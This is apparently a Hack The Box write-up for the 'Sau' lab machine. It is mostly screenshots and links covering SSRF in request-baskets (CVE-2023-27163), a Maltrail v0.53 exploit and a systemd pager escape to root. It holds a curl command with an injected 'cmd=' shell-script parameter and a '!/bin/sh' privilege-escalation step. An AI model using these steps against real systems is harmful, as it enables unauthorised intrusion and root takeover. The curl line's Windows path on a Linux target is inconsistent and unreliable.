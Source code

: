 ```yaml
---
title: "Sau"
date: 2024-08-27
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "sau", "writeup"]
---
```


## Enumeration

> - :55555/web
- CVE-2023-27163
- Maltrail v0.53

![screenshot](/assets/images/sau1.png)

### 55555-TCP

#### Fuzzing

![screenshot](/assets/images/sau2.png)

![[Pasted image 20240827124554.png]]

#### Web

![[Pasted image 20240827134722.png]]

```text
O2ZJG8S00yexG8xe_5Z0zwH0Hu53MF9SMpULkgOyK6eI
```

![[Pasted image 20240827134904.png]]

## Foothold
> SSRF

https://github.com/rvizx/CVE-2023-27163

![[Pasted image 20240827140613.png]]

![[Pasted image 20240827140629.png]]

```sh
# URL encode this
curl "http://10.10.11.224:55555/8gvphln?
cmd=c:\users\public\shell.sh"
```

https://github.com/entr0pie/CVE-2023-27163

- Changing the configuration settings in `:55555/web/<basket>` as below and navigation to the basket on a web browser shows the vulnerable service name and version. 

![screenshot](/assets/images/sau4.png)

![screenshot](/assets/images/sau5.png)

> CVE-2023-27163

https://github.com/entr0pie/CVE-2023-27163

Add attacker URL to `Forward URL:`

![screenshot](/assets/images/sau1.png)

Try to send the `GET` request to the basket and see if I receive anything on *Netcat* listener.

![screenshot](/assets/images/sau2.png)

![screenshot](/assets/images/sau3.png)

![screenshot](/assets/images/sau4.png)

Access the basket in a browser http://10.10.11.224:55555/rkh5ump

![screenshot](/assets/images/sau5.png)

### Maltrail v0.53

https://github.com/spookier/Maltrail-v0.53-Exploit

![screenshot](/assets/images/sau7.png)

![screenshot](/assets/images/sau6.png)

## Privilege Escalation

>- `sudo -l` shows that `/usr/bin/systemctl status trail.service` can be run without a password. 
- `systemctl --version` shows the vulnerable version.
- Used a public exploit to gain root access. 

![screenshot](/assets/images/sau9.png)

![screenshot](/assets/images/sau11.png)

systemd 245

https://packetstormsecurity.com/files/174130/systemd-246-Local-Root-Privilege-Escalation.html

### PoC

```text
1. Run the systemctl command which can be run as root user.

sudo /usr/bin/systemctl status any_service

2. The ouput is opened in a pager (less) which allows us to execute arbitrary commands.

3. Type in `!/bin/sh` in the pager to spawn a shell as root user.
```

![screenshot](/assets/images/sau13.png)



